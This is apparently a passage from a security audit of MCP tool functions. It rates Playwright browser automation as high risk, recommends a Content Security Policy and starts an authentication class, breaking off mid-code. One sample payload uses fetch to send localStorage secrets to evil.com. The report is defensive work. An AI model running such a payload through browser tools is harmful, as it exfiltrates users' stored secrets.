### 3. Browser Automation Security (HIGH RISK)

**Vulnerable Functions**:
- `mcp__playwright__browser_evaluate`
- `mcp__playwright__browser_navigate`
- `mcp__playwright__browser_type`

**XSS Injection Examples**:
```javascript
{
  "function": "() => { fetch('http://evil.com/steal', { method: 'POST', body: localStorage.getItem('secrets') }); }"
}
```

**Content Security Policy Required**:
```javascript
const secureCSP = {
  'default-src': "'self'",
  'script-src': "'self' 'unsafe-inline'", // Only if absolutely necessary
  'object-src': "'none'",
  'base-uri': "'self'",
  'frame-ancestors': "'none'"
};
```

## Authentication Security Assessment

### 1. Missing Authentication Mechanisms ❌ CRITICAL

**Finding**: No authentication required for most MCP functions.

**Impact**:
- Anyone with MCP access can execute functions
- No user identity verification
- No audit trail of function usage
- No rate limiting per user

**Recommended Authentication**:
```javascript
class MCPAuthenticator {
  constructor() {
    this.apiKeys = new Map();
    this.sessions = new Map();
    this.rateLimits = new Map();
  }

  async authenticateRequest(request) {
    const apiKey = request.headers['x-api-key'];
    const sessionToken = request.headers['authorization']?.replace('Bearer ', '');

    if (!apiKey && !sessionToken) {
      throw new AuthError('Authentication required');
    }

    let user = null;
    if (apiKey) {
      user = await this.validateApiKey(apiKey);
    } else if (sessionToken) {
      user = await this.validateSession(sessionToken);
    }

    if (!user) {
      throw new AuthError('Invalid credentials');
    }

```